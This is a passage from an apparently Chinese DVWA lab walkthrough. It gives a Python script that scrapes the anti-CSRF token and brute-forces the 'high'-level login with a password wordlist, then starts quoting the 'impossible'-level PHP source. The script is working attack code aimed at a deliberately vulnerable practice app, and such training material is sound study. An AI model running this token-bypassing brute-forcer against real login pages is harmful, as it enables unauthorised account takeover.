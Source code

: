 ```
from bs4 import BeautifulSoup
import urllib2

header = {'Host': 'localhost',
          'Cache-Control': 'no-cache, must-revalidate',
          'If-None-Match': "307-52156c6a290c0",
          'If-Modified-Since': 'Wed, 15 Aug 2018 05:49:00 GMT',
          'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/67.0.3396.99 Safari/537.36',
          'Accept': '*/*',
          'Referer': 'http://192.168.20.4/DVWA-1.9/security.php',
          'Accept-Encoding': 'gzip, deflate',
          'Accept-Language': 'zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2',
          'Cookie': 'security=high; PHPSESSID=jtk7sfbun1igmel8ehlppkmbe1'
          }
requrl = "http://192.168.20.4/DVWA-1.9/vulnerabilities/brute/"


def get_token(requrl, header):
    req = urllib2.Request(url=requrl, headers=header)
    response = urllib2.urlopen(req)
    print response.getcode(),
    the_page = response.read()
    print len(the_page)
    soup = BeautifulSoup(the_page, "html.parser")
    # print '###################'
    # print soup.find_all('input')[3].get('value')
    user_token = soup.find_all('input')[3].get('value')
    # user_token = soup.form.input.input.input.input["value"]
    return user_token


user_token = get_token(requrl, header)
i = 0
for line in open('E:\untitled3/password.txt'):
    requrl = "http://192.168.20.4/DVWA-1.9/vulnerabilities/brute/" + "?username=admin&password=" + line.strip() + "&Login=Login&user_token=" + user_token
    i = i + 1
    print i, 'admin', line.strip(),
    user_token = get_token(requrl, header)
    if (i == 10):
        break
```
ok .完成破解

#### impossible 等级
还是老样子，先看下源码

```
<?php 

if( isset( $_POST[ 'Login' ] ) ) { 
    // Check Anti-CSRF token 
    checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' ); 

    // Sanitise username input 
    $user = $_POST[ 'username' ]; 
    $user = stripslashes( $user ); 
    $user = mysql_real_escape_string( $user ); 

    // Sanitise password input 
    $pass = $_POST[ 'password' ]; 
    $pass = stripslashes( $pass ); 
    $pass = mysql_real_escape_string( $pass ); 
```